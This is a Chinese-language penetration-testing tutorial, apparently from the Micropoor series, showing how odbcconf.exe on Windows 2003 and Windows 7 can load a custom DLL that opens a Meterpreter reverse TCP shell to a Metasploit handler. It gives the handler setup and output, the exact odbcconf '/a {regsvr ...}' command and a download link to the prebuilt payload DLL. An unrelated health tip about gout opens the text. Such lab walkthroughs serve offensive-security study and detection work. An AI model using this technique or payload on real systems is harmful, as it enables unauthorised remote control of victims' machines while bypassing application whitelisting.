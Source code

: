 **注：**请多喝点热水或者凉白开，可预防**肾结石，通风**等。
痛风可伴发肥胖症、高血压病、糖尿病、脂代谢紊乱等多种代谢性疾病。

### Odbcconf简介：

ODBCCONF.exe是一个命令行工具，允许配置ODBC驱动程序和数据源。

微软官方文档：  
https://docs.microsoft.com/en-us/sql/odbc/odbcconf-exe?view=sql-server-2017

说明：Odbcconf.exe所在路径已被系统添加PATH环境变量中，因此，Odbcconf命令可识别，需注意x86，x64位的Odbcconf调用。

Windows 2003 默认位置：
```bash
C:\WINDOWS\system32\odbcconf.exe
C:\WINDOWS\SysWOW64\odbcconf.exe`

Windows 7 默认位置：
`C:\Windows\System32\odbcconf.exe
C:\Windows\SysWOW64\odbcconf.exe
```

**攻击机：**   
192.168.1.4 Debian  

**靶机：**   
192.168.1.119 Windows 2003  
192.168.1.5 Windows 7

### 配置攻击机msf：
**注：x86 payload**
```bash
msf exploit(multi/handler) > show options 

Module options (exploit/multi/handler): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐ 

Payload options (windows/meterpreter/reverse_tcp): 

Name Current Setting Required Description
‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐ ‐‐‐‐‐‐‐‐‐‐‐
EXITFUNC process yes Exit technique (Accepted: '', seh, thread, process, none)

LHOST 192.168.1.4 yes The listen address (an interface may be specified)

LPORT 53 yes The listen port 

Exploit target: 

Id Name

‐‐ ‐‐‐‐
0 Wildcard Target 

msf exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 192.168.1.4:53 
```
![](media/ba0e4d6c7b05eef6b8bcd5a730fb0c0b.jpg)

### 靶机执行：Windows 2003

**注：**文中为了更好的跨Windows 03--Windows 2016，Odbcconf for dll采纯C重新编写。  

![](media/df24184d409a2c0d09bbd18c511bc231.jpg)

```bash
C:\Windows\SysWOW64\odbcconf.exe /a {regsvr C:\Micropoor_Odbcconf.dll}
```

**注：x64** Odbcconf.exe  
![](media/74bf5a42540b5298cffc72cfa8987743.jpg)  

![](media/c8a788e729ff4969f70affe596b8f3a5.jpg)

### 附：
Micropoor_Odbcconf.dll，已测Windows 2003 x64 Windows 7 x64

**注：**
功能：reverse_tcp IP:192.168.1.4 PORT:53。如有安全软件拦截，因Micropoor加入特征。

>   大小: 73216 字节
>   修改时间: 2019年1月19日, 21:29:11
>   MD5: B31B971F01DE32EC5EC45746BF3DDAD2
>   SHA1: CF42E4BF5A613992B7A563A522BBEBF1D0F06CCE CRC32: 28A1CE90

https://drive.google.com/open?id=1j12W7VOhv_-NdnZpFhWLwdt8sQwxdAsk

>   Micropoor
